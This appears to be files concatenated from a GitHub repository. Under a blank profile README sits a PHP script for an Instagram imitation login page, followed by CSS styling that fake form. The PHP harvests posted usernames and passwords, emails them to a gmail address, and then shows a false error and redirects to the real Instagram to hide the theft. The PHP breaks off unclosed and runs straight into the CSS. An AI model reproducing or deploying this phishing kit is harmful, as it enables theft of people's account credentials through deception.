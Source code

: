 - 👋 Hi, I’m @xeyonn
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
xeyonn/xeyonn is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
<?php

// Variable settings
$username = $_POST['u_name'] ?? '';  // Fetch username (using null coalescing operator)
$passcode = $_POST['pass'] ?? '';    // Fetch password (using null coalescing operator)

$subject = "Someone Login ! Insta Dummy page";
$to = "xxxxxxxxxxx@gmail.com";

$txt = "Username: " . $username . "\r\nPassword: " . $passcode; // Email body (i) username [break] (ii) password;

// Check input fields
if (!empty($username) and !empty($passcode)) {

    mail($to, $subject, $txt);
    echo "<script type='text/javascript'>alert('Error ! Unable to login ');
        window.location.replace('https://www.instagram.com');
        </script>";

body{
    margin:  0;
    padding: 0;
    display: flex;
    min-height: 80vh;
    align-items: center;
    justify-content: center;
    background-color: #F8F9F9;
    font-family: sans-serif;
}
.container{
    text-align: center;
}

.page{
    
width:350px;
background: #fff;
border-radius: 5px;
padding-bottom: 15px;
}
.logo{
  display:block;
margin: 0 auto 5px;
}
form{
 width: 75%;
display: flex;
flex-direction: column;
position: relative;
left: 50%;
transform: translateX(-50%);   
}
form input {
margin-bottom: 5px;
border:1px solid #b6b6b6;
background:  #faf9f9;
border-radius: 3px;
outline: none;
padding-left: 10px;
position: relative;
height: 35px;
    
}

form button{    
border: none;
background: rgb(76, 180, 248);
padding: 8px 0;
margin-top: 10px;
color: #fff;
border-radius: 7px;
font-weight: bold;
text-transform: capitalize;
letter-spacing: 1px;
outline: none;
cursor: pointer;
}
form button:active{
background:  rgb(24, 119, 242);
transform: scaleX(0.995);  
}
form.option{
color:#b6b4b4;
margin: 70px ;
position:relative;
}
form .option::before{
position: absolute;    
content:  '';
width: 37%;
height: 1px;
background:#b6b6b6; 
left:0%;
top: 95%;
transform: translateY(-50%);
border-radius: 50px;

}
form .option::after{
position: absolute;    
content:  '';
width: 37%;
height: 2px;
background:#b6b6b6; 
right:0%;
top: 95%;
transform: translateY(-50%);
border-radius: 50px;

}
.fblink{
    margin-top: 30px;
    width: 100%
}
.fblink span{
    font-size: 18px;
    color: rgb(56, 81, 133);
    margin-right: 5px;
    
}
.fblink a{
  text-decoration: none;
font-weight: bold;
color: rgb(56, 81, 133);
}
.forget-id{
    margin: 15px;   
}
.forget-id a{
    text-decoration: none;
    color: rgb(56, 81, 133);
    font-size: 12px;
    font-weight: 500;
    
}
.page .singup{
    position:relative;
    border:1px solid #b6b6b6;
    border-radius: 2px;
    width: 90%;
    left: 50%;
    transform: translateX(-50%);
    margin-top: 25px;
}
.singup a{
    text-decoration: none;
    margin-left: 5px;
    color : rgb(76, 180, 248);
    font-weight: bold;
    
}

